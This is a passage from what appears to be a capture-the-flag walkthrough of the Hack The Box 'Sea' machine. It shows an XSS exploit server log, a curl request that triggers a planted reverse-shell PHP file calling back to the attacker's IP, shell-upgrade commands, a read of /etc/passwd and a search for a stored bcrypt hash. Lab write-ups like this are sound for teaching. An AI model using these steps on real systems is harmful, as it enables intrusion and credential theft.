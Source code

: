 
starting HTTP server to allow the access to xss.js
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Now, we're ready to head over to the contact page at ```http://sea.htb/contact.php``` and submit the link generated by the exploit script. After a few moments, we should see output like this in the HTTP server started by the script:

```
starting HTTP server to allow the access to xss.js
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.28 - - [26/Sep/2024 18:02:34] "GET /xss.js HTTP/1.1" 200 -
10.10.11.28 - - [26/Sep/2024 18:02:44] "GET /whatever.zip HTTP/1.1" 200 -
10.10.11.28 - - [26/Sep/2024 18:02:44] "GET /whatever.zip HTTP/1.1" 200 -
10.10.11.28 - - [26/Sep/2024 18:02:44] "GET /whatever.zip HTTP/1.1" 200 -
10.10.11.28 - - [26/Sep/2024 18:02:45] "GET /whatever.zip HTTP/1.1" 200 -
```

Next, we need to send a request using Curl with the following link (or alternatively, we can just paste the link into your browser):

```
curl 'http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.14.10&lport=4444'
```

If everything went smoothly, we should receive a reverse shell on the listener we started earlier, as instructed by the script:

```
python3 -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm
```

The first command spawns a fully interactive shell, making it easier to work with. The second command ensures the terminal behaves correctly by setting the environment to "xterm."

The next logical step is to search for users with a shell on the machine:

```
cat /etc/passwd | grep 'sh$'
```

In this command, ```grep 'sh$'``` filters the output to show only lines where the shell (e.g., ```/bin/bash```) is listed at the end (```$``` represents the end of a line).

And the output goes like this:

```
root:x:0:0:root:/root:/bin/bash
amay:x:1000:1000:amay:/home/amay:/bin/bash
geo:x:1001:1001::/home/geo:/bin/bash
```

As we explore other parts of the machine, we come across a ```database.js``` within the web application files that contains a ```bcrypt``` hash.

```
cd /var/www/sea/data
ls
cache.json  database.js  files
cat database.js
```

The line of interest goes like this:

```